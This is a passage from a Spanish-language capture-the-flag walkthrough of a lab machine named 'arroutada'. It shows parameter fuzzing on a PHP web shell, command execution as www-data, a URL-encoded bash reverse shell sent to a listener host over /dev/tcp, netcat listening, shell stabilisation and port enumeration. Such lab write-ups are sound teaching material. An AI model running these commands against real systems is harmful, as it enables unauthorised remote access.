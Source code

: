 ```
 :: Method           : GET
 :: URL              : http://10.0.2.16/thejabasshell.php?a=ls&b=FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 33
________________________________________________

pass                    [Status: 200, Size: 40, Words: 1, Lines: 5, Duration: 1ms]
:: Progress: [220560/220560] :: Job [1/1] :: 20572 req/sec :: Duration: [0:00:10] :: Errors: 0 ::
```

Ahora si con esto ya podemos ver que el parametro ineyectable es la a

```
❯ curl --url "http://10.0.2.16/thejabasshell.php?a=id&b=pass"                      
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Con esto ahora nos podemos spawnear una shell

```
❯ urlencode '/bin/bash -c "/bin/bash -i >& /dev/tcp/10.0.2.4/443 0>&1"'
%2Fbin%2Fbash%20-c%20%22%2Fbin%2Fbash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.0.2.4%2F443%200%3E%261%22
                                                                
❯ curl --url "http://10.0.2.16/thejabasshell.php?a=%2Fbin%2Fbash%20-c%20%22%2Fbin%2Fbash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.0.2.4%2F443%200%3E%261%22&b=pass"

```

Y nos ponemos en escucha con ```nc -lvnp 443```

Nos mejoramos la shell con estos comandos

```
script /dev/null -c bash
```
then press CTRL + z

```
stty raw -echo;fg
reset
export TERM=xterm SHELL=bash
```

Viendo la maquina y buscando la forma de escalar hacia usuario podemos darnos cuenta que la pagina esta corriendo en el puerto 8000

```
ww-data@arroutada:/var/www/html/scout$ ss -nltp
State    Recv-Q   Send-Q     Local Address:Port     Peer Address:Port  Process  
LISTEN   0        4096           127.0.0.1:8000          0.0.0.0:*              
LISTEN   0        511                    *:80                  *:*
```
